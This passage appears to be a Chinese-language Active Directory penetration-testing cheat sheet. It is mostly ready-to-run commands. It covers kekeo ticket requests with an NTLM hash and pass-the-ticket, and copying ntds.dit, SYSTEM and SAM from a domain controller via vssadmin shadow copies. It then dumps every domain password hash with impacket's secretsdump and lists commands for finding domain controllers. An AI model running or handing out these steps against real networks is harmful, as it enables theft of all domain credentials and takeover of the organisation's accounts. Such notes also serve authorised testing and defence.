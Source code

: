 ```
	kekeo "tgt::ask /user:abc /domain:test.local /ntlm:hash"
https://github.com/gentilkiwi/kekeo

导入ticket：

	kekeo "kerberos::ptt TGT_abc@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"

### ntds.dit
---
vssadmin方法>=win 2008  
查询当前系统的快照

	vssadmin list shadows
	
创建快照

	vssadmin create shadow /for=c:
获得Shadow Copy Volume Name为\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47

复制ntds.dit

	copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\NTDS\ntds.dit c:\ntds.dit    copy第一个参数为创建快照时位置

复制system和sam

	copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\system c:\
	copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\sam c:\

删除快照

	vssadmin delete shadows /for=c: /quiet

获取将以上system，sam, ntds.dit 放到 /root/ntds_cracking/下，运行	

	python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/SYSTEM LOCAL -outputfile  hash.txt
	
安装：

	git clone  https://github.com/CoreSecurity/impacket.git
	cd impacket-master/
	python setup.py  install

py地址 https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py
参考：[域渗透——获得域控服务器的NTDS.dit文件](http://www.4hou.com/technology/10573.html)

#### dc定位
---

	nltest dclist:xx.xx
	net time /domain
	systeminfo 中的domain
	ipconfig /all 中的DNS Suffix Search List
	扫描53端口，找dns位置，找389端口(idap)
	C:\jboss-5.1.0.GA\bin\>set log
	LOGONSERVER=\\DC01
	net group "domain controllers" /domain
	PowerView Get-NetDomainController
	PowerView地址https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

## windows log

```